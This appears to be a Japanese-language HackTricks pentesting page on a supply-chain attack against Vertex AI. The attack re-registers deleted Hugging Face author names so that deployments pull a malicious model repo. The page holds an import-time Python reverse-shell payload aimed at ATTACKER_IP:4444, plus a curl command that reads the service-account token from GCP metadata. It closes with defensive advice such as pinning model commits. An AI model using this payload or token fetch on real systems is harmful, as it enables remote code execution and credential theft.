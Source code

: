 # GCP - Vertex AI Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Vertex AI Model Garden は多くの Hugging Face (HF) モデルを直接デプロイできます。
- HF model identifiers are Author/ModelName. HF 上の author/org が削除された場合、同じ author 名は誰でも再登録できます。攻撃者はその後、同じ ModelName を使った repo をレガシーパス上に作成できます。
- 名前のみで取得する（pinning/integrity なし）Pipelines、SDKs、またはクラウドカタログは攻撃者が制御する repo を引いてしまいます。モデルがデプロイされると、その repo の loader code が Vertex AI endpoint container 内で実行され、エンドポイントの権限で RCE を得られます。

Two common takeover cases on HF:
- Ownership deletion: 古いパスは、誰かがその author を再登録して同じ ModelName を公開するまで 404 を返します。
- Ownership transfer: HF は古い Author/ModelName から新しい author へ 307 リダイレクトを発行します。古い author が後で削除され攻撃者により再登録されると、リダイレクトチェーンは途切れ、攻撃者の repo がレガシーパスで提供されます。

## Identifying Reusable Namespaces (HF)

- Old author deleted: author のページが 404 を返します。モデルパスは takeover が行われるまで 404 を返す場合があります。
- Transferred models: 古いモデルパスは、古い author が存在している間は新しい所有者へ 307 を返します。もし古い author が後で削除され再登録されると、レガシーパスは攻撃者の repo を指すようになります。

Quick checks with curl:
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>
# 200 = exists, 404 = deleted/available

# Check old model path behavior
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 = redirect to new owner (transfer case)
# 404 = missing (deletion case) until someone re-registers
```
## Vertex AI に対するエンドツーエンドの攻撃フロー

1) Model Garden に deployable としてリストされている再利用可能なモデル名前空間を発見する:
- Vertex AI Model Garden 内で、まだ “verified deployable” と表示されている HF モデルを見つける。
- HF 上で、元の author が削除されているか、モデルが移管されて古い author が後に削除されたかを確認する。

2) HF 上で削除された author を再登録し、同じ ModelName を再作成する。

3) 悪意のある repo を公開する。モデルのロード時に実行されるコードを含める。HF のモデルロード中に一般的に実行される例:
- repo の __init__.py における副作用
- config/auto_map で参照される custom modeling_*.py や processing コード
- Transformers パイプラインで trust_remote_code=True を要するコードパス

4) レガシーな Author/ModelName の Vertex AI デプロイが攻撃者の repo をプルするようになる。ローダーは Vertex AI endpoint コンテナ内で実行される。

5) ペイロードは endpoint 環境から（RCE）エンドポイントの権限でアクセスを確立する。

インポート時に実行されるペイロード断片の例（デモ目的のみ）：
```python
# Place in __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # Or python -c exec ...

if os.environ.get("VTX_AI","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
メモ
- 実際のローダーは様々です。多くの Vertex AI HF 統合は、モデルの設定で参照されるリポジトリモジュール（例: auto_map）をクローンしてインポートし、これがコード実行を引き起こす可能性があります。一部の利用では trust_remote_code=True が必要になることがあります。
- エンドポイントは通常、限定的な権限の専用コンテナで動作しますが、GCP 内でのデータアクセスや横移動のための有効な初期足がかりになり得ます。

## Post-Exploitation Tips (Vertex AI Endpoint)

endpoint コンテナ内でコードが実行されている場合、次を検討してください:
- 資格情報／トークンのために環境変数やメタデータを列挙する
- アタッチされたストレージやマウントされたモデルアーティファクトにアクセスする
- サービスアカウントの識別を使って Google APIs とやり取りする (Document AI, Storage, Pub/Sub, etc.)
- プラットフォームが repo を再取得する場合に備えてモデルアーティファクト内に永続化する

アクセス可能ならインスタンスメタデータを列挙する（コンテナ依存）:
```bash
curl -H "Metadata-Flavor: Google" \
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
```
## Vertex AI ユーザー向けの防御ガイダンス

- HF loadersでモデルをcommit単位で固定して、サイレントな置き換えを防ぐ:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- 精査済みの HFモデル を信頼できる内部のアーティファクトストア/レジストリにミラーし、そこからデプロイする。
- コードベースと設定を継続的にスキャンし、削除/転送されたハードコーディングされた Author/ModelName を検出して、新しい名前空間に更新するかコミットで固定する。
- Model Garden では、デプロイ前にモデルの由来と作者の存在を確認する。

## 認識ヒューリスティクス (HTTP)

- 削除された作者：作者ページが404。旧モデルパスも引き継ぎまで404。
- 移管されたモデル：旧パスが旧作者が存在する間に新作者へ307リダイレクトする；後に旧作者が削除され再登録された場合、旧パスは攻撃者のコンテンツを返す。
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## 相互参照

- より広範な方法論およびサプライチェーンに関する注記を参照:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## 参考文献

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
